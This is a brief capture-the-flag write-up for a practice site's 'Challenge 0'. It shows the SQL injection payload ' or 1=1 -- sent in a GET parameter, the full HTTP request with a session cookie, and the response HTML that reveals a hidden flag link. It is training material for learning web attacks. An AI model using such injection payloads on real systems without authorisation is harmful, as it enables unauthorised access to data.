 # Challenge 0
  - https://canyouhack.us/c/4e938b718a1501e5ae5471f1534376dc

Modify `key=` parameter in GET request as SQL statement `' or 1=1 --` to solve challenge, which adds ` <li><a href="/h4ckm3">14892b6aa415e8a154424f8c1a3a9aa3</a></li>` to the page and redirects you to your dashboard with this one as solved.

### GetRequest
```
GET /c/ab100e6c0add7bedfd82ad6e2a2c6ad5?key='%20or%201%3d1-- HTTP/1.1
Host: canyouhack.us
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://canyouhack.us/c/ab100e6c0add7bedfd82ad6e2a2c6ad5?key=2780d36d4e0e17581ac5ddbb0036ef39
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,de;q=0.8
Cookie: progress="Qs9ZRUiDIce/2L1kqNpgGIcNboYHi0YdIeY5Kty+YVxoouRPusJ17lF5YoliFVUDm4R1jeYDHmshiLHwhNfGLgRZmTOZD3Rr25PwRJqAUFk="
```

### HTML of response page
```html
<h1>Challenge 0</h1>

<h2>Farm Lookup</h2>
<form method="get" action="/c/ab100e6c0add7bedfd82ad6e2a2c6ad5">
 <p>
     <input name="key" type="hidden" value="&#39; or 1=1--"></input>
     <input type="submit" value="Get Pages">
 </p>
</form>

<h3>Pages</h3>
    <ul>

       <li>goats</li>

       <li>chicken</li>

       <li>dogs</li>

       <li>cows</li>

       <li><a href="/h4ckm3">14892b6aa415e8a154424f8c1a3a9aa3</a></li>

   </ul>

</div>
```
